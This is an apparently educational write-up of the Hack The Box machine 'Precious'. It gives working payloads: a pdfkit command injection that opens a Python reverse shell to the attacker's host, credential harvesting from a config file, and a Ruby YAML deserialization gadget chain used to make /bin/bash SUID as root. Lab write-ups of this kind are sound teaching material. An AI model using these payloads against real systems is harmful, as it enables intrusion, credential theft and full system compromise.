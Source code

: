 # HTB - Precious
###  Difficulty level: Easy
------------------------------------------------------

For start, i'll run nmap scan on all ports of the machine:
```bash
nmap 10.10.11.189 -p-
```
I found that ports 22 (ssh) and 80 (http) are open.
I will run another nmap scan for deeper look on this ports:
```bash
nmap -A 10.10.11.189 -p 22, 80
```

![image](https://user-images.githubusercontent.com/114166939/225315053-fbb7090c-6dac-4930-a86b-e5dd9dfca859.png)

It seems that there is nothing interesting about the ssh, but there is a website on the domain "http://precious.htb/" which works on nginx 1.18.0.

Now, before i'll try to open the website page, i'll add the domain to the /etc/hosts file.
```bash
nano /etc/hosts
```
![image](https://user-images.githubusercontent.com/114166939/225313538-ccb7e436-9d80-47cf-8873-baf4032e4875.png)

Now the website appears!

![image](https://user-images.githubusercontent.com/114166939/225313809-d39cc651-8fb8-43e8-ba52-4e2a4b3cc801.png)

The edit text does'nt getting any remote url, so i'll try a local one.

I'll open a python3 web server on my machine.
```bash
python3 -m http.server
```
And now I can write in the edit box at the web page the following url: 
"http://[MY-IP]:8000"

I got a screen-shot of my python3 server as a PDF file.

![image](https://user-images.githubusercontent.com/114166939/225316684-a2b9fc4d-b9cb-41e8-bbc1-8121afb38f6a.png)

I will save this screen-shot as a file on my machine and now i'll try to analyze it with exiftool:
```bash
exiftool 68ci7ek2mcv3lsdmyup77rgd2gbv1e3d.pdf 
```

![image](https://user-images.githubusercontent.com/114166939/225317837-a4bbd9a8-b25f-4836-9c7c-d0ed7f6c8f1e.png)

The creator of this file called "pdfkit v0.8.6", that's the service the server use to make the pdf files.

There is a known command injection exploit on this service - i'll use an exploit from this website: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

![image](https://user-images.githubusercontent.com/114166939/225319623-001804a0-bbe6-4673-8018-1baf4dd043e2.png)

First, i'll try to force the website a 5 seconds delay, also, I will use the python3 server again:
```bash
http://[MY-IP]:8000/?name=#{'%20`sleep 5`'}.to_pdf 
```
It works! now, I can change the sleep command for another command to get a reverse-shell on the machine:

Before i'll try to modify the injection command, i'll open netcat listener with the following line:
```bash
nc -lnvp 4567
```
Now, the new injection will change from sleep command to python3 ,url encoded, reverse shell command:
```bash
http://[MY-IP]:8000/?name=#{'%20`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("[MY-IP]",4567));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'`'}.to_pdf
```

![image](https://user-images.githubusercontent.com/114166939/225328174-91a1b7dd-fdfa-4c25-b14e-1d91c8b6189c.png)

First, i'll search for some information on current user:

![image](https://user-images.githubusercontent.com/114166939/225333012-81439138-679f-4b18-b65e-10a8ad6b56b8.png)

![image](https://user-images.githubusercontent.com/114166939/225333607-a5d1aeb9-b480-4e58-8972-0f24571cba3c.png)

Also. i'll try find out which users there are on the machine:

![image](https://user-images.githubusercontent.com/114166939/225333916-049f591e-7408-442e-b437-ececc76fe188.png)

The flag is at henry's home directory and as the current user, ruby, I do'nt have access:

![image](https://user-images.githubusercontent.com/114166939/225334484-de30199a-6b96-405b-aa55-1071a5c3ee4f.png)

On ruby's home directory there is a hidden suspicious direcory called ".bundle", in it I found a file called "config".

The content of this file is henry's credentials!

![image](https://user-images.githubusercontent.com/114166939/225337296-47f43372-f10d-469d-a889-650f974dfc83.png)

I'll use this credentials to connect henry via ssh:
```bash
ssh henry@10.10.11.189
```
Success!

![image](https://user-images.githubusercontent.com/114166939/225338482-1ceadbc3-221c-4d04-9ff1-d39ad31a96d7.png)

From henry's user I can print user.txt and get the flag:

![image](https://user-images.githubusercontent.com/114166939/225341738-a71c81b8-7ad0-4b86-b35c-4d19bcbf178b.png)

Now im going to escalate the privileges from henry to root!
First i'll run a "sudo -l" command:

![image](https://user-images.githubusercontent.com/114166939/225344459-9825a004-cb6a-420c-aee6-3a0d4de09550.png)

Let's check "/opt/update_dependencies.rb" file:

![image](https://user-images.githubusercontent.com/114166939/225345307-a1620b31-9fbf-4186-8df7-0d4c3a7ce3da.png)

![image](https://user-images.githubusercontent.com/114166939/225349125-5ff2901d-2d49-405e-9654-436a15f06c05.png)

In the code I can see that it use a function called "YAML.load()" and it loads a file called dependencies.yml.
After searching online, I found this website - https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

In this website there is a yml code for bash command injection:
I'll change the "git_set:" option to test if it works and save it as "dependencies.yml" in henry's home directory:
(Any command running from this file will run as root permissions)
```yml
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: whoami
          method_id: :resolve 
```

And run:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

It works!

![image](https://user-images.githubusercontent.com/114166939/225352225-0d9b5b75-af30-43a6-84c3-ad6e1f2ff8e8.png)

Instead of "whoami" command i'll change the command for this:
```bash
chmod +s /bin/bash
```

So on "/bin/bash" will be SUID:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

![image](https://user-images.githubusercontent.com/114166939/225358387-20e3c0ea-a5ac-45b9-9fb0-25592872501e.png)

Now all that's left to do is running the command:
```bash
/bin/bash -p
```

![image](https://user-images.githubusercontent.com/114166939/225359267-b004b58a-c1cf-4974-b7f4-a90b55de79c4.png)

![image](https://user-images.githubusercontent.com/114166939/225359919-3ea38c37-2aaf-4903-b7c7-20d25e89ffd0.png)

